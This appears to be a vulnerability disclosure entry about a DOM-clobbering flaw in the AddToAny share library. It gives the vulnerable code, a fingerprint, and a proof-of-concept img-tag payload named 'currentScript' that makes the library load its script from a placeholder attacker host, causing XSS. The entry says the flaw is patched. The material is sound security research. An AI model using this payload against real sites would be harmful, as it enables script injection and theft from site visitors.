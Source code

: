 ## AddToAny

### Meta

+ Library: AddToAny
+ Stars: N/A
+ Fingerprint: `window.hasOwnProperty('a2a_config')`
+ Payload: ```<img src="https://addtoany.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: Patched
+ Foundby: TheHulk

### Library

URL:
+ `https://static.addtoany.com/menu/page.js` (patched)

### Vulnerable Code Snippet

```javascript
_ = (d = o.currentScript) && d.src ? d.src : "",
e = d && !d.async && !d.defer,
```

```javascript
a = (t = n.static_server) ? t + "/" : "https://static.addtoany.com/menu/",
p = _ && -1 !== _.split("/")[2].indexOf("addtoany"),
l = (p = (l = !t && p ? _ : a).match(/^[^?#]+\//)) ? p[0] : l,
```

```javascript
var e = l + (t ? "" : "modules/");
c(e + "core" + g + ".js", !0);
```

## PoC

``` html
<!--Library-->
<script async src="https://static.addtoany.com/menu/page.js"></script>
<!--Library-->

<!--Payload-->
<img src="https://addtoany.xxx.xxx" name="currentScript">
<!--Payload-->
```